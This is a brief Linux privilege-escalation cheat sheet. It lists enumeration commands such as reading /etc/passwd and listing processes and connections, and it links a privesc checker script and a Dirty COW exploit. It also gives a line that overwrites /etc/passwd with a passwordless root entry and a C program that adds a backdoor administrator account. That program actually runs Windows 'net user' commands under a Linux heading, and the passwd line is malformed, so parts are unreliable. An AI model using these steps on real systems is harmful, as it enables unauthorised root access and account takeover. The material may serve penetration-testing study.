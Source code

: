 # LINUX

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
